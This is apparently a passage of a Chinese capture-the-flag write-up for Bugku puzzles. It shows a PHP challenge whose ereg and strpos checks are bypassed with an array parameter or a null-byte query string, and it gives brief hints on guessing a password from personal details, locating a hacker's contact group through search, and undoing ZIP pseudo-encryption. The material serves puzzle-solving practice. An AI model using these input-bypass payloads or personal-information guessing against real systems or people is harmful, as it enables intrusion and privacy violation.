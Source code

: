 ```bash
?le9%00*-*
```
# strpos数组绕过
```bash
<?php
$flag = "flag";
if (isset ($_GET['ctf'])) {
if (@ereg ("^[1-9]+$", $_GET['ctf']) === FALSE)
echo '必须输入数字才行';
else if (strpos ($_GET['ctf'], '#biubiubiu') !== FALSE)
die('Flag: '.$flag);
else
echo '骚年，继续努力吧啊~';
}
?>
```
构造
```bash
 ?ctf[]
````
或者
```bash
?ctf=1%00%23biubiubiu
```
# 密码
张三名字的第一个字母和生日组合
# 信息查找
通过百度查找bugku.cn 就能找到一条主机屋网站遭到黑客攻击，黑客爆出联系方式。里面的群qq就是
# 简单的个人信息收集
zip压缩包，猜测伪加密，在winhex中打开，找到504B0102从50算起，的第九和第十个字节全部都改成00。成功得到一些信息。然后去社工吧。
#